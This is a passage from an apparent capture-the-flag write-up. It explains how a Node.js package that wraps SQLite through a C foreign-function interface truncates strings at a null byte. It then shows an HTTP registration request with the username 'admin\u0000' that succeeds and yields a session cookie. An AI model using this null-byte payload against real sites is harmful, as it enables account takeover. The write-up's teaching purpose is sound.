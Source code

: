 Hmm... Maybe this is a 0-day or 1-day challenge?!

If we read the source code ([`secure-sqlite/lib.js`](https://www.npmjs.com/package/secure-sqlite?activeTab=code)), we can see that this package indeed perform prepared statement properly. I also `diff`'d the latest version and version `1.1.0`, but found nothing interesting.

However, there's one thing kinda weird to me, its dependencies:

```javascript
const ffi = require('ffi-napi');
const ref = require('ref-napi');
```

If we Google package [ffi-napi](https://www.npmjs.com/package/ffi-napi), we can see that it's a Node.js addon for loading and calling dynamic libraries using pure JavaScript.

> It also simplifies the augmentation of node.js with C code as it takes care of handling the translation of types across JavaScript and C, which can add reams of boilerplate code to your otherwise simple C. See the `example/factorial` for an example of this use case. - [https://www.npmjs.com/package/ffi-napi](https://www.npmjs.com/package/ffi-napi)

In `secure-sqlite/lib.js`, we can see that it loads `libsqlite3` C library:

```javascript
const _lib = ffi.Library('libsqlite3', {
  [...]
}
```

Wait, why using a foreign function interface? I mean, [Node.js has an API for SQLite](https://nodejs.org/api/sqlite.html), why not just create wrapper functions in this use case?

Anyway, in addon ffi-napi, it mentioned a lot about C language. Since **C language's strings are null-terminated (`\0`)**, maybe this package will **terminate everything after a null byte in a string**?

## Exploitation

Armed with above information, we can try to send the following POST request to route `/register`:

```http
POST /register HTTP/2
Host: arclbroth-xdt9d.instancer.lac.tf
Content-Type: application/json
Content-Length: 48

{"username":"admin\u0000","password":"anything"}
```

Response:

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Date: Tue, 11 Feb 2025 08:33:21 GMT
Etag: W/"10-oV4hJxRVSENxc/wX8+mA4/Pe4tA"
Set-Cookie: session=139520655927309; Path=/
X-Powered-By: Express
Content-Length: 16

{"success":true}
```
